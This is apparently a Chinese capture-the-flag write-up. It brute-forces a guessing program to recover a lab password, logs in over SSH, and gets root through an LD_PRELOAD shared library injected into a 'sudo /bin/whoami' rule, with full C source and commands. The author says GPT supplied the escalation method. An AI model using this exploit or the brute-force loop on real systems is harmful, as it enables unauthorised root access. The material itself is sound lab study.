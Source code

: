 ```bash
while true; do echo 1 | ./guess_game; done
# 爆破出密码：superxiix
```
ssh登录xiix
使用 `sudo -l`：

```bash
sudo -l
# (ALL : ALL) /bin/whoami
```

不会这个提权，问问GPT：
可以尝试利用环境变量或 LD_PRELOAD 绕过。
你可以伪造一个共享库，注入到 sudo /bin/whoami 中：
编写提权的 so 文件（C 代码）
创建一个 C 文件，叫 root.c：
```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run() {
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
编译为共享库
```bash
gcc -fPIC -shared -o root.so root.c
```
使用 LD_PRELOAD 注入并执行
```bash
sudo LD_PRELOAD=$PWD/root.so /bin/whoami
```


就可以成功提权了


